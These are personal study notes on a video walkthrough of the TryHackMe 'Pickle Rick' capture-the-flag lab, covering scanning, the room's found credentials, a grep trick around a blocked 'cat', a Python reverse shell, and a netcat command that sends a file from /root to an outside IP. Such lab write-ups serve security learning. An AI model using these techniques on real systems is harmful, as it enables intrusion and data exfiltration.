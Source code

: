 # TryHackMe! PickleRick - BYPASSING Blacklists
Type : #t/YouTube
Time Created : 2022-06-06 17:29
Last Modified : 2022-06-06 17:29
Subjects: #s/Cybersecurity #s/TryToHackMe
Progress: #p/🟡 
URL: https://www.youtube.com/watch?v=oCAtfcr3iUw
Publisher: #psh/JohnHammond
Priority: #i/🟥 

## Steps
1. Running an Nmap scan on the IP Address
2. fires up **Nikto**
3. can see that port 22 and 80 are open
4. Going into the website
5. Check it's Source Code, and getting a user name `R1ckRul3s`
6. fires up **GoBuster** and looking for another pages in the website (you can `-x` which look for a specific format files in the server 
 For example: `-x php,html,js,htm`)
7. Nikto tells us that there is a file named `robots.txt` which contains `Wubalubadubdub` 
8. GoBuster return us the pages that are on the server and we're trying to get into one, which wants from us login credentials, we're trying the things that we got before and we're in.
9. we see that there's a CMD bar to activate commands.
10. we hit `ls` to list the things that we can hack into
11. because we can't use `cat` to view the info of any file we need to find another way to look into it, you can use he `grep` command and type `grep . FILE.txt` this will match every character into the file and present it basically concatenate it without `cat`.
12. you can type `grep -R` that will run over all of the files and get their info out into the page of the website, which you can view the source after and look through them.
13. and when you are looking trough the page source you can see that there's a base 64 encoding, that you need to decode, in this case you need to try decoded over decode until that works.
14. now we can try to run a reverse shell into the machine.
15. we're going to run this in **Netcat**, but when we're trying to run Netcat is not working, but we can try to look if we have python, in this case we have python3 and we can run a reverse shell using python3.
16. we're openning a Netcat connection in our computer and running the python script in the website (because we're using Netcat the shell that we're going to work on is dumb, to know how to upgrade if look into [[Upgrade a Dumb Reverse Shell into a Fully Functional Terminal Tutorial]])
17. moving **linpeans** into the victim's machine to Escalate privileges (you can see how to transfer a file through Netcat, you're creating a net connection on a different port, and send the file by typing in the **receiving** `nc -l -p 8585 > file.txt` and int the sending `nc -N 45.58.46.205 8585 < /root/file.txt` )
18. and look on all of the things that in <mark style="background: #FF5582A6;">red</mark>